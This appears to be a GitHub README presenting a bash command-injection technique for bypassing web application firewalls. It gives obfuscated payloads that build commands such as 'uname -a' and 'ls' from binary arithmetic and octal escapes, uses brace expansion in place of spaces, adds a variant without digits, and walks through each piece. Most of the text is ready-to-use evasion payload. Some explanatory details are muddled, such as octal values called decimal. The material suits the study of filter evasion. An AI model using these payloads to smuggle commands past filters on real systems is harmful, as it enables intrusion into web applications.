 # Bash-Command-Injection
Bash Command Injection WAF Bypass

<img src="cmd-injection.png" align="center">

### Manual Conversion:

- [UCS-4 Little Endian -> Bytes (decimal)](https://onlineunicodetools.com/convert-unicode-to-bytes)
- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

<br>

<hr>

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> Using a **comma** `,` from **Brace Expansion** so it acts like a **space**. <br>
> The reason why we use **Brace Expansion**: <br>
```console
$ echo {ola,mundo}
ola mundo
```

> In short, this is what's happening: ([Click to see full explanation](#full-explanation))
- `{\$\'command1\',\$\'command2-or-argument2\'}`

<br>

<hr>

<br>

### Video Example:

[![Link](https://img.youtube.com/vi/B4mpV44Z1-8/0.jpg)](https://www.youtube.com/watch?v=B4mpV44Z1-8)

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call a UTF-8 decimal to be interpreted to text, just like so (154 in decimal == l; 163 in decimal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (decimal "154" to binary is "10011010") is equal to 154
# This is a method I found that works but is a little confusing:
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (decimal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"
# or echo -e "\0154\163" to print it as a string

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg


# Bonus without using numbers:
# ${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
                                        ^ 10011010                                                   ^ 10100011

${##} == 1
${#}  == 0

echo -ne "${##}${#}${#}${##}${##}${#}${##}${#} ${##}${#}${##}${#}${#}${#}${##}${##}\n"
```
